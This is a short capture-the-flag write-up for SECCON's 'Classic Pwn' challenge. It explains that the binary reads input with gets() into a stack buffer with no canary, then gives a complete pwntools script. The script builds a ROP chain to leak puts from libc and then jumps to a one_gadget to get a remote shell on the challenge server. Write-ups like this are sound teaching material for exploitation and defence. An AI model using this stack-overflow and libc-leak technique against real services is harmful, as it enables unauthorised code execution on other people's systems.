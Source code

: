 ## Classic Pwn (Pwn)

### Solution
The program use `gets()` to read input into a stack buffer, there's no canary, so we can easily use ROP to leak libc and spawn a shell.

```python
#!/usr/bin/env python3

from pwn import *
context(arch="amd64", terminal=["tmux", "neww"])

b = ELF("./classic")
libc = ELF("./libc-2.23.so")
rop = ROP(b)

one_gadget = 0x45216

payload = b"a" * 72
payload += p64(rop.rdi.address) # puts@plt(puts@got)
payload += p64(b.got[b'puts'])
payload += p64(b.plt[b'puts'])
payload += p64(b.symbols[b'main'])

#r = process("./classic")
r = remote("classic.pwn.seccon.jp", 17354)
r.sendline(payload)
r.recvuntil("!!\n")
puts = u64(r.recv(6).ljust(8, b"\x00"))

payload = b"a" * 72
payload += p64(puts - libc.symbols[b'puts'] + one_gadget)
r.sendline(payload)

r.interactive()
```
